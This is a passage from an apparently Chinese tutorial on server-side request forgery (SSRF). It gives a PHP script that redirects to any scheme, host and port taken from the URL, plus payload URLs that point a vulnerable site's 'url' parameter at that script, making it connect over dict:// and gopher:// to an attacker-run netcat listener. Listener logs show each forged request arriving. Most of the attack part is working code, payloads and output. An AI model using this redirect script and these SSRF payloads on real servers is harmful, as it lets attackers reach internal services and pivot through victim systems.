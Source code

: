 
  
Location 302跳转辅助脚本 [302.php]
  
``` php
  
<?php
  
$ip = $_GET['ip'];
  
$port = $_GET['port'];
  
$scheme = $_GET['s'];
  
$data = $_GET['data'];
  
header("Location: $scheme://$ip:$port/$data");
  
?>
  
```
  

  
### 1.4 服务端支持协议
  

  
#### Dict协议 -> dict://fuzz.wuyun.org:8080/helo:dict
  

  
`victimsite/index.php?url=attacksite/302.php?s=dict&ip=fuzz.wuyun.org&port=8080&data=helo:dict`
  
```
  
[root@(fuzz.wuyun.org)localhost wyssrf]# nc -l -vv 8080
  
Connection from 113.108.10.15 port 8080 [tcp/webcache] accepted
  
CLIENT libcurl 7.15.1
  
helo dict
  
QUIT
  
```
  

  
#### Gopher协议 -> gopher://fuzz.wuyun.org:8080/gopher
  

  
`victimsite/index.php?url=attacksite/302.php?s=gopher&ip=fuzz.wuyun.org&port=8080&data=gopher`
  
```
  
[root@localhost wyssrf]# nc -l -vv 8080
  
Connection from 113.108.10.16 port 8080 [tcp/webcache] accepted
  
GET /gopher HTTP/1.1
  
Host: 106.75.199.107:8080
  
Accept: */*
  
```
  